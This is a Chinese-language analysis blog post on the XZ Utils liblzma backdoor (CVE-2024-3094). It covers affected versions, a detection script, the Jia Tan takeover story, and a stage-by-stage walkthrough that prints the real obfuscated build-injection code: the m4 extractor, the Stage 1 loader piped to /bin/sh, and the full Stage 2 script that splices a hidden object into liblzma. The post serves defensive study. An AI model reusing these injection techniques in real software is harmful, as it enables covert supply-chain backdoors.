

# XZ Utils Backdoor 事件分析汇总


&lt;!--more--&gt;
## XZ Utilѕ 工具库 恶意后门植入漏洞 (CVE-2024-3094)

## 漏洞介绍

XZ是类Unix操作系统上的一种高压缩比的无损数据压缩格式，由 Tukaani 项目开发，通常与gzibzip2 等其他常见数据压缩格式进行比较，它帮助将大文件格式压缩（然后解压缩） 为更小 更易管理的大小， 以便通过文件传输进行共享。

XZ Utils是一个命令行工具，包含XZ文件和liblzma的压缩和解压缩功能。 liblzma 是一个用于处理 XZ 压缩格式的开源软件库，是一种用于数据压缩的类似zlib的API，并且还支持旧版 .lzma 格式。

3月29日，有开发人员在安全邮件列表上发帖称，他在调查SSH性能问题时发现了涉及XZ包中的供应链攻击，进一步溯源发现SSH使用的上游liblzma库被植入了后门代码，恶意代码可能允许攻击者通过后门版本的SSH非授权获取系统的访问权限。恶意代码修改了liblzma代码中的函数，该代码是XZ Utils软件包的一部分，链接到 XZ 库的任何软件都可以使用此修改后的代码，并允许拦截和修改与该库一起使用的数据。

### 漏洞信息

| ------       | ------                                                       | ------       | ------       |
| ------------ | ------------------------------------------------------------ | ------------ | ------------ |
| **漏洞名称** | XZ Utilѕ工具库恶意后门植入漏洞                               | **公开时间** | 2024-03-29   |
| **CVE编号**  | CVE-2024-3094                                                | **漏洞评级** | 高危         |
| **事件类型** | 供应链攻击、 后门                                            | **技术类型** | 内嵌恶意代码 |
| **厂商**     | 开源项目 Tukaani Project                                     | **产品**     | xz           |
| **威胁状态** | POC/EXP已公开，在野利用已发现，技术细节部分公开              |              |              |
| **影响版本** | xz == 5.6.0 、xz == 5.6.1 、liblzma== 5.6.0 、liblzma== 5.6.1 |              |              |


### 受影响组件和系统

xz 和 liblzma 5.6.0~5.6.1 版本，可能包括的发行版 / 包管理系统有：

- Fedora 41 / Fedora Rawhide
- Debian Sid 非稳定的测试版 5.5.1alpha-0.1 到 5.6.1-1
- Alpine Edge
- x64 架构的 homebrew
- 滚动更新的发行版，包括 Arch Linux / OpenSUSE Tumbleweed

详情可参考： https://repology.org/project/xz/versions

以下为正在更新的操作系统和发行版列表， 它们已经报告是否受到这个漏洞的影响。  


查看受影响的开源操作系统可参考： https://repology.org/project/xz/versions


如果您的系统使用 systemd 启动 OpenSSH 服务器，您的 SSH 认证过程可能被攻击。

非 x64 (amd64) 架构的系统不受影响。


### 漏洞排查

通过如下命令查看系统本地是否安装了受影响的 XZ：

```sh
$ xz --version
xz (XZ Utils) 5.6.1
liblzma 5.6.1
```

自查脚本如下：

在系统中执行脚本

```sh
#! /bin/bash
set -eu
# find path to liblzma used by sshd
path=&#34;$(ldd $(which sshd) | grep liblzma | grep -o &#39;/[^ ]*&#39;)&#34;
# does it even exist?
if [ &#34;$path&#34; == &#34;&#34; ]
then
echo probably not vulnerable
exit
fi
# check for function signature
if hexdump -ve &#39;1/1 &#34;%.2x&#34;&#39; &#34;$path&#34; | grep -q
f30f1efa554889f54c89ce5389fb81e7000000804883ec28488954241848894c2410
then
echo probably vulnerable
else
echo probably not vulnerable
fi
```


### 缓解措施

目前官方尚无最新版本， 需对软件版本进行降级 5.4.X， 请关注官方新版本发布并及时更新。

Fedora Linux 40 用户需 xz 回退到 5.4.x 版本可参考：

https://www.redhat.com/en/blog/urgent-security-alert-fedora-41-and-rawhide-users

https://bodhi.fedoraproject.org/updates/FEDORA-2024-d02c7bb266


## 背后故事

故事大概是：

OpenSSH依赖一个名为liblzma(xz)的小众开源压缩库，攻击者虚构了一个名为&#34;Jia Tan&#34;的开发者身份，从2021年10月开始为xz项目积极做开发维护贡献，逐渐获得信任。

最终接管了维护工作后，在构建脚本中逐步加入一个复杂隐蔽并复杂混淆的后门，而且是几个月内慢慢的添加所有组件，组合成了完整的后门，接着还联系Linux发行版维护人员，试图让带后门的xz库被打包分发给所有用户，直到微软员工Andres Freund因调查SSH延迟问题发现了此事。

发现也很巧合，Andres Freund在分析一台运行Debian Sid的Linux设备SSH登录速度过慢问题时（有500毫秒的延迟和大量的CPU消耗问题，而且他在使用“Valgrind”工具进行分析和内存调试时遇到了许多报错，也促使他有进一步调查的想法），最终发现了该后门。而且RCE也非常巧妙，将有效负载隐藏到将要发送到 SSH 的专门制作的密钥里。


目前迹象表明，后门作者有选择性的针对 linux 发行版下手。但这个 liblzma 可不只Linux上用。比如目前流行的iOS越狱环境，大部分 tweak 包还是以 .deb 格式发行，比较新的版本就用到了 lzma 作为压缩。

除此之外近期有在 macOS 上使用 brew 安装过 xz 这个包应该也受影响，很多 brew 包都依赖了 xz，你可能不知不觉就装上了，还好暂时不能证明这个后门会感染 macOS。


Andres 的电子邮件里有对整个故事精彩描述。还有有趣的部分是带有混淆后门的二进制文件本身，[邮件原文在这](https://www.openwall.com/lists/oss-security/2024/03/29/4)。


从5.6.0版本开始，在xz的上游tarball包中发现了恶意代码。通过一系列复杂的混淆手段，liblzma的构建过程从伪装成测试文件的源代码中提取出预构建的目标文件，然后用它来修改liblzma代码中的特定函数。这导致生成了一个被修改过的liblzma库，任何链接此库的软件都可能使用它，从而拦截并修改与此库的数据交互。

xz 5.6.0和5.6.1版本库中存在的恶意注入只包含在tarball下载包中。Git发行版中缺少触发恶意代码构建的M4宏。注入期间构建时使用的第二阶段工件存在于Git存储库中，以防存在恶意的M4宏。如果不合并到构建中，第二阶段文件是无害的。

在发现者的演示中，发现它干扰了OpenSSH守护进程。虽然OpenSSH没有直接链接到liblzma库，但它以一种使其暴露于恶意软件的方式与systemd通信，因为systemd链接到了liblzma。

恶意构建会通过systemd干扰sshd的认证。SSH是一种常用的协议，用于远程连接系统，而sshd是允许访问的服务。在适当的情况下，这种干扰有可能使恶意行为体破坏sshd认证，并远程未经授权访问整个系统。


整个后门故事非常精彩，攻击者为此整整潜伏了三年，只差一点点就可以往众多 Linux发行版的 sshd 注入后门，可用于绕过密钥验证，后果不堪设想。

**省流概括**:

1. 攻击者 JiaT75 (Jia Tan) 于2021年注册了 GitHub 账号，之后积极参与xz项目的维护，并逐渐获取信任，于2022年成为了xz的定期贡献者，获得了直接 commit 代码的权利。2023年1月7日JiaT75合并了他们的第一次提交。2024年项目URL变更为http://xz.tukaani.org/xz-utils/，进一步增加了JiaT75对该项目的控制。

2. JiaT75 在最近几个月的一次 commit 中，悄悄加入了 bad-3-corrupt lzma2.xz 和 good-large compressed.lzma 两个看似无害的测试用二进制数据，然而在编译脚本中，在特定条件下会从这两个文件中读取内容对编译结果进行修改，致使编译结果和公开的源代码不一致。

3. 目前初步的研究显示，注入的代码会使用 glibc 的 IFUNC 去 HookOpensSH的 RSA public decrypt 函数，致使攻击者可以通过构造特定的验证数据绕过 RSA 签名验证。(具体细节还在分析中)

4. 只要是同时使用了 liblzma和 OpenSsH的程序就会受到影响，最直接的目标就是 sshd，使得攻击者可以构造特定请求，绕过密钥验证远程访问。

5. 受影响的 xz-utils 包已经被并入 Debian testing 中进行测试，攻击者同时也在尝试并入 fedora 和 ubuntu。

6. 幸运的是，注入的代码似乎存在某种 Bug，导致特定情况下 sshd 的 CPU占用飙升。被安全研究人员AndresFrund注意到了，并报告给 oss-security，致使此事败漏。如果不是因为这个 Bug，那么该后门很有可能被并入主流发行版的stable 版本，那么将形成一场前所未有的重大安全事件。

另外从一些细节能看出来攻击者非常用心:

攻击者抢在 ubuntu beta freeze 的几天前才尝试让新版本并入，以期望减少在测试期间被发现的时间。

xz-utils 项目的原维护者 Lasse Colin(Larhzu)，有着定期进行internetbreaks的习惯，而且最近正在进行，导致这些变动他并没有review的机会，即使到现在也没能联系上他本人。这可能也是攻击者选定xz-utils 项目的原因之一。

更多的细节还在被分析中，目前 GitHub 已经关停了整个 xz项目。


## 技术细节

很值得关注的部分一是整个新式攻击手法模型，二是混淆手段和思路，还有就带有后门的混淆二进制文件本身了。

Andres Freund 邮件原文有后门程序的详细分析，但由于发现者不是安全研究人员，也不擅长逆向，所以都是以观察分析类发现为主。

推上@Thomas Roccia也制作了分析图：


详细展开下上述内容，将Stage 1 前的部分，暂时称为 Stage 0。

目前 GitHub 已经关停了整个 xz项目，但可以从 [备份仓库](https://github.com/thesamesam/xz-archive) 进行下载分析。

### Stage 0

从[m4/build-to-host.m4](https://salsa.debian.org/debian/xz-utils/-/blob/46cb28adbbfb8f50a10704c1b86f107d077878e6/m4/build-to-host.m4)文件开始。以下是相关代码片段：

```sh
...
gl_[$1]_config=&#39;sed \&#34;r\n\&#34; $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2&gt;/dev/null&#39;
...
gl_path_map=&#39;tr &#34;\t \-_&#34; &#34; \t_\-&#34;&#39;
...
```


进行了一个字符替换，将制表符`\t`、空格`\ `、连字符`-`、下划线`_`，依次替换为了空格`\ `、制表符`\t`、下划线`_`、连字符`-`

这段代码在构建过程中的某个地方运行，提取第一阶段脚本。概述如下：

1. `sed \&#34;r\n\&#34; $gl_am_configmake`：读取 `tests/files/bad-3-corrupt_lzma2.xz `文件中的字节，并用作下一步的输入。读取完所有内容后，会添加换行符`\n`;
2. 运行 tr 命令，进行字符替换，将选定的字符更改为其他字符，将制表符`\t`、空格`\ `、连字符`-`、下划线`_`，依次替换为了空格`\ `、制表符`\t`、下划线`_`、连字符`-`，它对`tests/files/bad-3-corrupt_lzma2.xz` 文件中的字节进行替换，这使得 bad-3-corrupt_lzma2.xz 再次形成了正确的 xz 流。
3. 在此阶段的最后一步中，提取固定的 xz 字节流，并忽略错误（该流似乎被截断，但这并不重要，因为整个有意义的输出已被写出）。其结果是Stage 1的脚本，该脚本会立即执行。

下面是 5.6.0 版本解压后的Stage 1 脚本


### Stage 1

在Andres 的电子邮件中是以“####Hello####”开头的 bash 文件。以下是 5.6.1版本

```sh
####Hello####
# a few binary bytes here, but as it&#39;s a comment they are ignorred
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir=&#34;../../$srcdir&#34;
fi
export i=&#34;((head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;939)&#34;;(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c &#43;31233|tr &#34;\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113&#34; &#34;\0-\377&#34;)|xz -F raw --lzma1 -dc|/bin/sh
####World####
```

可以看到5.6.0 和 5.6.1 的一些区别：

第一个区别是第二行注释中的随机字节。在5.6.0 是 86 F9 5A F7 2E 68 6A BC, 而在 5.6.1 是 E5 55 89 B7 24 04 D8 17. 暂时不确定这些差异是否有意义。

第二个区别是5.6.1版本添加了检测是否在 Linux 上运行代码，而它重复了 5 次，这很奇怪。

先分析第 2 阶段提取代码，即带有很多head的`export i=... `行。进行简单拆分：

```sh
export i=&#34;((head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;939)&#34;;

(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c &#43;31233|tr &#34;\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113&#34; &#34;\0-\377&#34;)|xz -F raw --lzma1 -dc|/bin/sh
```


1. 开头的`export i=... ` 只是一个函数定义。它会在Stage 2 和 Stage 3 中被调用。

2. 第 2 步是将 `good-large_compressed.lzma` 文件解压缩到标准输出 (xz -dc) ，并用作下一步的输入；

3. 然后会调用 i 函数 (`eval $i`)。该函数基本上是一系列head调用，要么输出接下来的 N 个字节（`head -c &#43;N`），要么跳过接下来的 N 个字节（`head -c &#43;N &gt;/dev/null`）。i 函数最终实现：忽略 1024 个字节，再输出 2048 个字节，忽略 1024 个字节，再输出 2048 个字节...依此类推，直到到达文件的最末尾，其中只有 724 个字节（在 5.6.0 中）或 939输出字节（在 5.6.1 中）。

4. 接下去执行 `tail -c &#43;31233 `忽略数据的初始部分（`tail -c &#43;N` 表示“从字节 N 开始输出”，注：初始部分隐藏了二进制后门，会将在下一阶段中提取）。在 5.6.0 中，这将是前 31264 个字节，在 5.6.1 中是 31232 。

5. 第5步执行 tr 命令，用作简单的替换密码，密钥（字节值映射）在 5.6.0 和 5.6.1 中不同，两种情况下，都有 6 个范围映射到整个 0 - 255（即八进制 377）范围。

   ```sh
   5.6.0: tr &#34;\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131&#34; &#34;\0-\377&#34;
   5.6.1: tr &#34;\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113&#34; &#34;\0-\377&#34;
   ```

6. 在最后一步中，解密的数据被解压缩（`xz -F raw --lzma1 -dc`），并且立即执行Stage 2。

5.6.0 解压结果部分：


```sh
P=&#34;-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections&#34;
C=&#34;pic_flag=\&#34; $P\&#34;&#34;
O=&#34;^pic_flag=\&#34; -fPIC -DPIC\&#34;$&#34;
R=&#34;is_arch_extension_supported&#34;
x=&#34;__get_cpuid(&#34;
p=&#34;good-large_compressed.lzma&#34;
U=&#34;bad-3-corrupt_lzma2.xz&#34;
eval $zrKcVq
if test -f config.status; then
eval $zrKcSS
eval `grep ^LD=\&#39;\/ config.status`
eval `grep ^CC=\&#39; config.status`
eval `grep ^GCC=\&#39; config.status`
eval `grep ^srcdir=\&#39; config.status`
eval `grep ^build=\&#39;x86_64 config.status`
eval `grep ^enable_shared=\&#39;yes\&#39; config.status`
eval `grep ^enable_static=\&#39; config.status`
eval `grep ^gl_path_map=\&#39; config.status`
eval $zrKccj
if ! grep -qs &#39;\[&#34;HAVE_FUNC_ATTRIBUTE_IFUNC&#34;\]=&#34; 1&#34;&#39; config.status &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if ! grep -qs &#39;define HAVE_FUNC_ATTRIBUTE_IFUNC 1&#39; config.h &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if test &#34;x$enable_shared&#34; != &#34;xyes&#34;;then
exit 0
fi
if ! (echo &#34;$build&#34; | grep -Eq &#34;^x86_64&#34; &gt; /dev/null 2&gt;&amp;1) &amp;&amp; (echo &#34;$build&#34; | grep -Eq &#34;linux-gnu$&#34; &gt; /dev/null 2&gt;&amp;1);then
exit 0
fi
if ! grep -qs &#34;$R()&#34; $srcdir/src/liblzma/check/crc64_fast.c &gt; /dev/null 2&gt;&amp;1; then
exit 0
fi
if ! grep -qs &#34;$R()&#34; $srcdir/src/liblzma/check/crc32_fast.c &gt; /dev/null 2&gt;&amp;1; then
exit 0
fi
if ! grep -qs &#34;$R&#34; $srcdir/src/liblzma/check/crc_x86_clmul.h &gt; /dev/null 2&gt;&amp;1; then
exit 0
fi
if ! grep -qs &#34;$x&#34; $srcdir/src/liblzma/check/crc_x86_clmul.h &gt; /dev/null 2&gt;&amp;1; then
exit 0
fi
if test &#34;x$GCC&#34; != &#39;xyes&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if test &#34;x$CC&#34; != &#39;xgcc&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
LDv=$LD&#34; -v&#34;
if ! $LDv 2&gt;&amp;1 | grep -qs &#39;GNU ld&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if ! test -f &#34;$srcdir/tests/files/$p&#34; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if ! test -f &#34;$srcdir/tests/files/$U&#34; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if test -f &#34;$srcdir/debian/rules&#34; || test &#34;x$RPM_ARCH&#34; = &#34;xx86_64&#34;;then
eval $zrKcst
j=&#34;^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4&#34;
if ! grep -qs &#34;$j&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
z=&#34;^am__uninstall_files_from_dir = {&#34;
if ! grep -qs &#34;$z&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
w=&#34;^am__install_max =&#34;
if ! grep -qs &#34;$w&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
E=$z
if ! grep -qs &#34;$E&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
Q=&#34;^am__vpath_adj_setup =&#34;
if ! grep -qs &#34;$Q&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
M=&#34;^am__include = include&#34;
if ! grep -qs &#34;$M&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
L=&#34;^all: all-recursive$&#34;
if ! grep -qs &#34;$L&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
m=&#34;^LTLIBRARIES = \$(lib_LTLIBRARIES)&#34;
if ! grep -qs &#34;$m&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
u=&#34;AM_V_CCLD = \$(am__v_CCLD_\$(V))&#34;
if ! grep -qs &#34;$u&#34; src/liblzma/Makefile &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if ! grep -qs &#34;$O&#34; libtool &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
eval $zrKcTy
b=&#34;am__test = $U&#34;
sed -i &#34;/$j/i$b&#34; src/liblzma/Makefile || true
d=`echo $gl_path_map | sed &#39;s/\\\/\\\\\\\\/g&#39;`
b=&#34;am__strip_prefix = $d&#34;
sed -i &#34;/$w/i$b&#34; src/liblzma/Makefile || true
b=&#34;am__dist_setup = \$(am__strip_prefix) | xz -d 2&gt;/dev/null | \$(SHELL)&#34;
sed -i &#34;/$E/i$b&#34; src/liblzma/Makefile || true
b=&#34;\$(top_srcdir)/tests/files/\$(am__test)&#34;
s=&#34;am__test_dir=$b&#34;
sed -i &#34;/$Q/i$s&#34; src/liblzma/Makefile || true
h=&#34;-Wl,--sort-section=name,-X&#34;
if ! echo &#34;$LDFLAGS&#34; | grep -qs -e &#34;-z,now&#34; -e &#34;-z -Wl,now&#34; &gt; /dev/null 2&gt;&amp;1;then
h=$h&#34;,-z,now&#34;
fi
j=&#34;liblzma_la_LDFLAGS &#43;= $h&#34;
sed -i &#34;/$L/i$j&#34; src/liblzma/Makefile || true
sed -i &#34;s/$O/$C/g&#34; libtool || true
k=&#34;AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))&#34;
sed -i &#34;s/$u/$k/&#34; src/liblzma/Makefile || true
l=&#34;LTDEPS=&#39;\$(lib_LTDEPS)&#39;; \\\\\n\
    export top_srcdir=&#39;\$(top_srcdir)&#39;; \\\\\n\
    export CC=&#39;\$(CC)&#39;; \\\\\n\
    export DEFS=&#39;\$(DEFS)&#39;; \\\\\n\
    export DEFAULT_INCLUDES=&#39;\$(DEFAULT_INCLUDES)&#39;; \\\\\n\
    export INCLUDES=&#39;\$(INCLUDES)&#39;; \\\\\n\
    export liblzma_la_CPPFLAGS=&#39;\$(liblzma_la_CPPFLAGS)&#39;; \\\\\n\
    export CPPFLAGS=&#39;\$(CPPFLAGS)&#39;; \\\\\n\
    export AM_CFLAGS=&#39;\$(AM_CFLAGS)&#39;; \\\\\n\
    export CFLAGS=&#39;\$(CFLAGS)&#39;; \\\\\n\
    export AM_V_CCLD=&#39;\$(am__v_CCLD_\$(V))&#39;; \\\\\n\
    export liblzma_la_LINK=&#39;\$(liblzma_la_LINK)&#39;; \\\\\n\
    export libdir=&#39;\$(libdir)&#39;; \\\\\n\
    export liblzma_la_OBJECTS=&#39;\$(liblzma_la_OBJECTS)&#39;; \\\\\n\
    export liblzma_la_LIBADD=&#39;\$(liblzma_la_LIBADD)&#39;; \\\\\n\
sed rpath \$(am__test_dir) | \$(am__dist_setup) &gt;/dev/null 2&gt;&amp;1&#34;;
sed -i &#34;/$m/i$l&#34; src/liblzma/Makefile || true
eval $zrKcHD
fi
elif (test -f .libs/liblzma_la-crc64_fast.o) &amp;&amp; (test -f .libs/liblzma_la-crc32_fast.o); then
eval $zrKcKQ
if ! grep -qs &#34;$R()&#34; $top_srcdir/src/liblzma/check/crc64_fast.c; then
exit 0
fi
if ! grep -qs &#34;$R()&#34; $top_srcdir/src/liblzma/check/crc32_fast.c; then
exit 0
fi
if ! grep -qs &#34;$R&#34; $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
if ! grep -qs &#34;$x&#34; $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
if ! grep -qs &#34;$C&#34; ../../libtool; then
exit 0
fi
if ! echo $liblzma_la_LINK | grep -qs -e &#34;-z,now&#34; -e &#34;-z -Wl,now&#34; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if echo $liblzma_la_LINK | grep -qs -e &#34;lazy&#34; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
N=0
W=0
Y=`grep &#34;dnl Convert it to C string syntax.&#34; $top_srcdir/m4/gettext.m4`
eval $zrKcjv
if test -z &#34;$Y&#34;; then
N=0
W=88792
else
N=88792
W=0
fi
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed &#34;s/\(.\)/\1\n/g&#34; | LC_ALL=C awk &#39;BEGIN{FS=&#34;\n&#34;;RS=&#34;\n&#34;;ORS=&#34;&#34;;m=256;for(i=0;i&lt;m;i&#43;&#43;){t[sprintf(&#34;x%c&#34;,i)]=i;c[i]=((i*7)&#43;5)%m;}i=0;j=0;for(l=0;l&lt;4096;l&#43;&#43;){i=(i&#43;1)%m;a=c[i];j=(j&#43;a)%m;c[i]=c[j];c[j]=a;}}{v=t[&#34;x&#34; (NF&lt;1?RS:$1)];i=(i&#43;1)%m;a=c[i];j=(j&#43;a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a&#43;b)%m];printf &#34;%c&#34;,(v&#43;k)%m}&#39; | xz -dc --single-stream | ((head -c &#43;$N &gt; /dev/null 2&gt;&amp;1) &amp;&amp; head -c &#43;$W) &gt; liblzma_la-crc64-fast.o || true
if ! test -f liblzma_la-crc64-fast.o; then
exit 0
fi
cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
V=&#39;#endif\n#if defined(CRC32_GENERIC) &amp;&amp; defined(CRC64_GENERIC) &amp;&amp; defined(CRC_X86_CLMUL) &amp;&amp; defined(CRC_USE_IFUNC) &amp;&amp; defined(PIC) &amp;&amp; (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &amp;r[0], &amp;r[1], &amp;r[2], &amp;r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 &lt;&lt; 1) | (1 &lt;&lt; 9) | (1 &lt;&lt; 19); return success &amp;&amp; (r[2] &amp; ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported&#39;
eval $yosA
if sed &#34;/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()&#34; $top_srcdir/src/liblzma/check/crc64_fast.c | \
sed &#34;/include \&#34;crc_x86_clmul.h\&#34;/a \\$V&#34; | \
sed &#34;1i # 0 \&#34;$top_srcdir/src/liblzma/check/crc64_fast.c\&#34;&#34; 2&gt;/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2&gt;/dev/null; then
cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o || true
eval $BPep
if sed &#34;/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()&#34; $top_srcdir/src/liblzma/check/crc32_fast.c | \
sed &#34;/include \&#34;crc32_arm64.h\&#34;/a \\$V&#34; | \
sed &#34;1i # 0 \&#34;$top_srcdir/src/liblzma/check/crc32_fast.c\&#34;&#34; 2&gt;/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
eval $RgYB
if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
if test ! -f .libs/liblzma.so; then
mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
else
mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
rm -f .libs/liblzma_la-crc32-fast.o || true
rm -f .libs/liblzma_la-crc64-fast.o || true
else
mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
else
mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
rm -f liblzma_la-crc64-fast.o || true
fi
eval $DHLd

```


### Stage 2

Stage 2是 Andres 在原始电子邮件（即 5.6.0 版本）中附加的[fected.txt](https://www.openwall.com/lists/oss-security/2024/03/29/4/1) 文件。这个 bash 脚本中发生了很多事情，因为这是实际编译过程修改发生的地方。

